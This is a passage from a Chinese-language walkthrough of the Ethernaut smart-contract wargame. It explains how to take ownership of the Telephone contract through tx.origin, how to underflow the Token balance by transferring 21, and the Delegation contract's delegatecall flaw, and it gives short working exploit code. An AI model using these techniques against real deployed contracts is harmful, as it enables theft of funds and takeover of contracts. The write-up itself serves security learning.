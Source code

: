 ### Exploit
部署一個合約呼叫 `changeOwner()` 即可通過 tx.origin != msg.sender
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ITelephone {
  function changeOwner(address _owner) external;
}

contract TelephoneAttack {

  function attack(address _addr) public {
    ITelephone(_addr).changeOwner(msg.sender);
  }
}
```
Level completed.

## 5. Token
目標 `balances[player] > 20`，初始 `balances[player] = 20`

觀察 solidity 版本 0.6.0 且沒有 SafeMath（0.8.0 後自帶 SafeMath）

```solidity
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```
unit256 範圍為 `0` 到 `2^256 - 1`，所以 Line 2: require 一定會過

任何加法減法都可能會 overflow/underflow
```
20 - 21 = 2^256 - 1
```
所以轉出 21 到別的地址即可

### Exploit
```javascript
await contract.transfer(instance, 21)
```
Level completed.

## 6. Delegation
目標 `owner = player`

注意到 Delegate 合約有個 `pwn()` 可以改 owner:
```solidity
  function pwn() public {
    owner = msg.sender;
  }
```
Delegation 合約的 `fallback()` 可以有個 delegatecall（執行另一個合約的邏輯，狀態是改變現在這個合約）
```solidity
  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
```
### Exploit
